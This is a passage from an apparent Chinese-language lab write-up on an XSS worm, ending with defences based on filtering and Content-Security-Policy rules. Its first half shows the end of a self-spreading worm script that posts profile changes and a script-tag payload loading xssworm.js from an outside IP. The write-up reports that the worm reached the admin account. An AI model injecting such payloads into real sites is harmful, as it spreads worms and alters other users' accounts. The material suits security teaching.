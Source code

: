 ```
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
```

我放在自己服务器的nginx下 通过浏览器查看一下是能访问  
![](/web-security/img/xss-10.png)



现在只需要在boby的个人信息输入框中放入  
```
<script type="text/javascript" id="worm" src="http://212.64.56.231/xssworm.js"></script>
```

通过试验，登陆alice访问了boby主页，在登陆admin访问alice主页。发现admin的个人信息也被修改了，说明实现了传播。  
![](/web-security/img/xss-11.png)



#### 防御方式
xss的根本原因是html允许js代码和数据混编。  

**1.去除代码:**  
过滤掉数据中的代码， 或者通过编码把代码变成数据  
**2.用内容安全策略(CSP,这是一套标准，是为了防御xss攻击，大部分浏览器都实现了):**   
网页中放入js代码两种方式 嵌入式：代码直接在网页中。引入式：把代码放在另外一个文件或url中，包含进网页   
通过CSP，网站可以通过在回复的头部加入一些CSP规则，告诉浏览器不要运行页面中嵌入的任何JavaScript代码， 所有代码都必须从网站单独下载。  
比如csp规则:  
```
Content-Security-Policy: script-src 'self'
```
不仅禁止了所有嵌入式代码，还规定只有来自和该网页同一网站的代码才可以被执行（这是self的意义）。在这个规则下， 引入js必须这样写：  
```
<script src="myscript.js"></script>
```
但有时需要运行从其他可以信任的网站下载的代码，CSP允许提供一个白名单，如：  
```
Content-Security-Policy: script-src 'self' example.com 
                         https://apis.google.com
```


安全地使用嵌入式代码 如果开发者确想用嵌入式的方法把代码放到网页中，CSP也提供了一种安全的做法，就是要求在CSP规则中指明哪些嵌入代码是 可信的。有两种：  
把可信代码的单项哈希值放在CSP规则中  
```
Content-Security-Policy: script-src 'nonce-34fo3er92d'
```

用nonce，在CSP规则中设置一些可信任的nonce  
```
<script nonce="34fo3er92d">...</script>
```


